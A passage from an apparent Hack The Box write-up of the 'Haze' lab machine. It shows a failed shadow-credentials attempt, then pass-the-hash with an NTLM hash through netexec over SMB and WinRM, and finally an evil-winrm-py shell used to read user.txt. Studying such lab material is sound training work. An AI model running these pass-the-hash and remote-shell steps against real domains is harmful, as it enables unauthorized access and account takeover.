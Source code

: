 ```
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'e9ba7063a082411d9f4bbebf54e1dcf5'
[*] Adding Key Credential with device ID 'e9ba7063a082411d9f4bbebf54e1dcf5' to the Key Credentials for 'edward.martin'
[-] Could not update Key Credentials for 'edward.martin' due to insufficient access rights: 00002098: SecErr: DSID-031514B3, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0

```

That hash works:

```

oxdf@hacky$ netexec smb dc01.haze.htb -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af 

```

And edward.martin can WinRM:

```

oxdf@hacky$ netexec winrm dc01.haze.htb -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
WINRM       10.10.11.61     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb) 
WINRM       10.10.11.61     5985   DC01             [+] haze.htb\edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af (Pwn3d!)

```

I’ll get a shell and `user.txt`:

```

oxdf@hacky$ evil-winrm-py -i dc01.haze.htb -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v1.1.1
[*] Connecting to dc01.haze.htb:5985 as edward.martin
evil-winrm-py PS C:\Users\edward.martin\Documents> cd ..\Desktop
evil-winrm-py PS C:\Users\edward.martin\Desktop> type user.txt
24bcc3d9************************

```

## Shell as alexander.green

### Enumeration

#### Find Backup
